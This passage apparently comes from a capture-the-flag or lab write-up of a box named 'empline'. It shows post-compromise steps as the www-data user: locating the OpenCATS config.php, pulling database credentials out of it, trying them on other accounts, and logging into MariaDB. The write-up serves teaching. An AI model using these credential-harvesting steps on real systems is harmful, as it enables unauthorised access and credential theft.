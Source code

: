 ````commandline
drwxrwxr-x  3 www-data www-data 4.0K May  3  2017 src
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 temp
drwxrwxr-x  6 www-data www-data 4.0K May  3  2017 test
drwxrwx---  3 www-data www-data 4.0K Sep 19 12:43 upload
drwxrwxr-x 17 www-data www-data 4.0K May  3  2017 vendor
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 wsdl
drwxrwxr-x  2 www-data www-data 4.0K May  3  2017 xml
www-data@empline:/var/www$
````

### MySQL Database

So, I ended up looking on the <https://forums.opencats.org/> and using the nice `Search Form` for more information about where the database config files is stored. I found that it is stored in a file called `config.php`.

````commandline
www-data@empline:/var/www$ find . -name config.php
./opencats/config.php
./opencats/test/config.php
````

Looking into that file, of course, found the database credentials. Here is a stripped out version of the `config.php`.

````commandline
opencats/config.php:define('DATABASE_USER', 'james');
opencats/config.php:define('DATABASE_PASS', 'REDACTED');
opencats/config.php:define('DATABASE_HOST', 'localhost');
opencats/config.php:define('DATABASE_NAME', 'opencats');
````

Tried to use these credentials to log in but there is no credentials reuse for the shell user `george` and `ubuntu` and `root`.

So continuing looking for credentials and connected to the `MySQL` database. Looking which database are available, you never know if you get even more free goodies.

````commandline
www-data@empline:/var/www$ mysql -u james -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 115
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use opencats
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [opencats]>
````
